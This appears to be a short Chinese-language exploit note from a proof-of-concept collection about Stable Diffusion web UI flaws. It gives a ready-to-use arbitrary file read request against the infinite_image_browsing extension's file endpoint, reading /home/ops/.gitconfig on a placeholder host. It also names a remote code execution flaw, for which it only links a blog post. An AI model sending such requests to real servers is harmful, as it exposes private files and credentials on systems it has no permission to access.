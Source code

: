 ## Stable_Diffusion 任意文件读取

## POC

```
https://www.xxxx.com/infinite_image_browsing/file?path=/home/ops/.gitconfig&t=1
```

## Stable_Diffusion RCE漏洞

## POC
参考
https://blog.stevenyu.tw/2023/04/23/stable-diffusion-webui-rce-vulnerabilitiy/
